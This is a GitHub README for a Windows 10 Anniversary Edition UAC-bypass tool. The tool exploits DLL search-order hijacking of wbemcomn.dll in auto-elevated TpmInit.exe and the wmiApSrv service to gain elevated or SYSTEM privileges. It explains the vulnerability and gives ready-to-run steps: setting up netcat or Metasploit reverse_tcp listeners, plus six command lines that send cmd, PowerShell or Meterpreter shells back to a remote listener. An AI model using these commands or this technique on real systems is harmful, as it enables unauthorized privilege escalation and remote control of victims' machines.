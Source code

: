 ```
   ______                ____      _ __
  /_  __/___  ____ ___  /  _/___  (_) /_
   / / / __ \/ __ `__ \ / // __ \/ / __/
  / / / /_/ / / / / / // // / / / / /_
 /_/ / .___/_/ /_/ /_/___/_/ /_/_/\__/
    /_/
                    UAC Suicide Squad
       Windows 10 Anniversary Edition
                      By Cn33liz 2016
```

A tool to Bypass User Account Control (UAC), to get a High Integrity (or SYSTEM) Reversed Command shell, 
a reversed PowerShell session, or a Reversed Meterpreter session.
When TpmInit.exe starts, it first tries to load the wbemcomn.dll within C:\Windows\System32\wbem.
This DLL cannot be found in that folder, so it tries to load the DLL again, but then in C:\Windows\System32.
This tool exploits this DLL loading vulnerability within TpmInit.exe, which runs auto-elevated by default.
Same issue also applies to the WMI Performance Adapter service (wmiApSrv) which runs with SYSTEM privileges.
So while we can use TpmInit.exe to get Elevated priviliges, we can also use it to start the wmiApSrv service,
and get a SYSTEM shell using our custom DLL :)

Works on:

```
This version only works on Windows 10 x64 with the Anniversary Update applied (Version 1607).
```

Compile:

```
This project is written in C/C++ using Windows API calls, so you need Visual Studio to compile.
Source code of the needed dll's are included within the project, but not needed to run the tool.
They are embeded within the main executable (as Base64 encoded and compressed binaries).
```

### How to use it:

```
* [>] Usage: First setup a remote Netcat, Ncat or Meterpreter(x64) listener
* [>] Example: KickAss@PenTestBox:~$ sudo ncat -lvp 443

* [>] Or for msf: KickAss@PenTestBox:~$ sudo msfconsole
* [>] msf > use exploit/multi/handler
* [>] msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
* [>] msf exploit(handler) > set LHOST 10.0.0.1
* [>] msf exploit(handler) > set LPORT 443
* [>] msf exploit(handler) > exploit -j

* [>] Then on your target: TpmInitUACBypass.exe <Remote Listener IP> <Port> <powershell, cmd or msf> <system>

* [>] Example1: Remote Elevated Cmd Shell:   TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 cmd
* [>] Example2: Remote SYSTEM Cmd Shell:     TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 cmd system
* [>] Example3: Remote Elevated PowerShell:  TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 powershell
* [>] Example4: Remote SYSTEM PowerShell:    TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 powershell system
* [>] Example5: Remote Elevated Meterpreter: TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 msf
* [>] Example6: Remote SYSTEM Meterpreter:   TpmInitUACAnniversaryBypass.exe 10.0.0.1 443 msf system
```

### Strong Advice

* Do not use accounts with Administrative privileges for daily computer usage!
